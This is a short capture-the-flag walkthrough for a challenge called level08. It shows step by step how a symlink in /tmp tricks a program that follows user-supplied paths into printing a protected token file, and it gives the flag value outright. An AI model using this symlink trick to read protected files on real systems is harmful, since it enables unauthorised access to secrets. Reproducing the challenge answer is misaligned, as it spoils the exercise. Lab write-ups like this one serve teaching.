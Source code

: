 
# Resources for level08

## Walkthrough to capture the flag:

### Step 1: List the files in the home directory

```bash
ls
```

> Output:
```
level08  token
```

> There is a binary (`level08`) and a `token` file that we cannot read directly. But the binary likely reads it on our behalf.

---

### Step 2: Create a symbolic link to the token file

```bash
ln -s /home/user/level08/token /tmp/flagg
```

> This creates a **symlink** named `/tmp/flagg` pointing to the real token file.

---

### Step 3: Run the binary with the symlink

```bash
./level08 /tmp/flagg
```

> Output:
```
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

## ✅ Final Flag

```
viuaaale9huek52boumoomioc
```

---

## ✅ Summary

- **Vulnerability**: Follows user-supplied file path — can be used to trick it into reading protected files via symlinks.
- **Exploit**: `ln -s /home/user/level08/token /tmp/flagg && ./level08 /tmp/flagg`
- **Flag**: `viuaaale9huek52boumoomioc`
